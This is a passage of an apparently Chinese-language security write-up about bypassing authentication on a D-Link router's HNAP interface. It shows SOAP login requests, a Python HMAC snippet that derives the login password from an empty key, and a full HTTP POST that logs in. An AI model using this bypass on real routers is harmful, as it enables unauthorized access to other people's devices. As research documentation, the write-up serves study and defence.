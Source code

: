 ```
<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><Login xmlns="http://purenetworks.com/HNAP1/"><Action>request</Action><Username></Username><LoginPassword></LoginPassword></Login></soap:Body></soap:Envelope>
```

![image-20210218225310367](https://gitee.com/mrskye/Picbed/raw/master/img/20210218225310.png)

然后在本地用空秘钥运算出 LoginPassword ：

```python
import hmac
enc1 = hmac.new(public_key, challenge).hexdigest()
enc2 = hmac.new(enc1.upper(), challenge).hexdigest()
print("password: " + enc2)
```

补充上 cookie 和 loginpassword 标签，action 改为 login 登录：

```
POST /HNAP1 HTTP/1.1
Host: xx.xx.xx.xx
Connection: close
Cookie: uid=5Ae8c695b1;
Accept-Encoding: gzip, deflate
Pragma: no-cache
Cache-Control: no-cache
SOAPAction: "http://purenetworks.com/HNAP1/GetModuleProfile"
Accept-Language: zh-CN,zh;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.141 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Upgrade-Insecure-Requests: 1
Content-Length: 410

<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><Login xmlns="http://purenetworks.com/HNAP1/"><Action>login</Action><Username>SKYE</Username><LoginPassword>C6F5148B44048218D1E8E2282C8F6EBB</LoginPassword></Login></soap:Body></soap:Envelope>
```

![image-20210218233358347](https://gitee.com/mrskye/Picbed/raw/master/img/20210218233358.png)

登录成功后，想试下 nhap 其他功能，比如设置路由器密码之类的，没整出来不知道是 xml 构造错了还是什么，一直返回 Login request 的数据。

## 参考文章

http://www.atomsec.org/%E5%AE%89%E5%85%A8/hacking-d-link-routers-with-hnap/

https://wzt.ac.cn/2021/01/17/DCS-960L/

https://www.4hou.com/posts/1QL0

https://xz.aliyun.com/t/2834#toc-3